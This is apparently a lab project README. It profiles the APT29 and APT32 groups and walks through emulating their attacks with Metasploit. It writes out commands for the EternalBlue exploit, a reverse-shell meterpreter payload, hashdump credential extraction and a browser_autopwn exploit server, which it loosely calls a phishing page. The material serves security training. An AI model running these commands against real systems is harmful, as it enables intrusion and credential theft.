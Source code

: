 # Threat Analysis Project

## Introduction
This project focuses on investigating Advanced Persistent Threat (APT) groups, documenting their tactics, techniques, and procedures (TTPs), and simulating APT attacks within a controlled lab environment. By understanding the anatomy of APT groups and emulating their attack strategies, you will gain valuable insights into threat detection and mitigation.

## Objectives
- Research and document the anatomy and tactics of selected APT groups (e.g., APT29, APT32).
- Simulate APT attack scenarios using Metasploit in the lab environment.

## Tools and Software
- Metasploit Framework
- Kali Linux
- VMware Workstation
- Vulnerable applications (e.g., DVWA, OWASP Juice Shop)

## Step 1: Research APT Groups

### APT29 (Cozy Bear)
- **Background**: APT29 is believed to be associated with Russian intelligence and is known for targeting governmental and political organizations.
- **Tactics**: 
  - **Phishing**: Use of spear-phishing emails to gain initial access.
  - **Credential Dumping**: Tools like Mimikatz to extract credentials.
  - **Remote Access**: Use of malware such as CozyDuke for persistence.
- **Mitigation Strategies**: 
  - User training on phishing awareness.
  - Implement multi-factor authentication (MFA).
  - Regular monitoring for unusual login activity.

### APT32 (Ocean Buffalo)
- **Background**: APT32 is linked to Vietnam and has targeted foreign corporations and governments, focusing on industrial espionage.
- **Tactics**: 
  - **Social Engineering**: Creating fake websites to trick users into providing sensitive information.
  - **Web Shells**: Use of web shells for command and control (C2).
  - **Data Exfiltration**: Use of encrypted channels for data exfiltration.
- **Mitigation Strategies**: 
  - Regular security assessments and penetration testing.
  - Network segmentation to limit lateral movement.
  - Endpoint detection and response (EDR) solutions.

## Step 2: Simulate APT Attacks

### Environment Setup
1. **Ensure the Lab Environment is Running**:
   - Make sure all VMs (Kali Linux, Windows, etc.) are powered on and networked correctly.
  
### Step 2.1: Using Metasploit to Emulate APT29 Attack
1. **Open Metasploit**:
   - Launch Kali Linux and open a terminal.
   - Start Metasploit: `msfconsole`.

2. **Search for an Exploit**:
   - Use the search command to find relevant exploits. For example:
     ```
     search type:exploit platform:windows
     ```

3. **Select an Exploit**:
   - Choose an appropriate exploit. For example, if you find an exploit for a vulnerable version of a service running on the target:
     ```
     use exploit/windows/smb/ms17_010_eternalblue
     ```

4. **Configure the Exploit**:
   - Set the target and payload:
     ```
     set RHOSTS [Target IP Address]
     set PAYLOAD windows/x64/meterpreter/reverse_tcp
     set LHOST [Your Kali IP Address]
     ```

5. **Execute the Exploit**:
   - Run the exploit:
     ```
     exploit
     ```

6. **Post-Exploitation**:
   - Once you gain access, use Meterpreter commands to explore the system:
     ```
     sysinfo
     hashdump
     ```

### Step 2.2: Simulating APT32 Attack
1. **Use Metasploit to Create a Social Engineering Attack**:
   - Choose an appropriate module for social engineering, such as creating a phishing page:
     ```
     use auxiliary/server/browser_autopwn
     ```

2. **Configure the Attack**:
   - Set the appropriate options:
     ```
     set SRVHOST [Your Kali IP Address]
     set URIPATH [malicious path]
     ```

3. **Launch the Attack**:
   - Start the server to host the phishing page:
     ```
     exploit
     ```

4. **Document the Attack**:
   - Document the process and findings, noting the techniques used and any access obtained.

## Conclusion
This project demonstrates the importance of understanding APT groups and their attack methodologies. By researching APT29 and APT32, and simulating attacks using Metasploit, you gain practical experience in threat analysis and incident response. Documenting these findings not only enhances your skills but also provides valuable insights into developing effective security measures against APT threats.

## References
- [MITRE ATT&CK Framework](https://attack.mitre.org/)
- [NIST Cybersecurity Framework](https://www.nist.gov/cyberframework)
- APT29 and APT32 reports from various cybersecurity publications.

---
George Ofosu, CASP


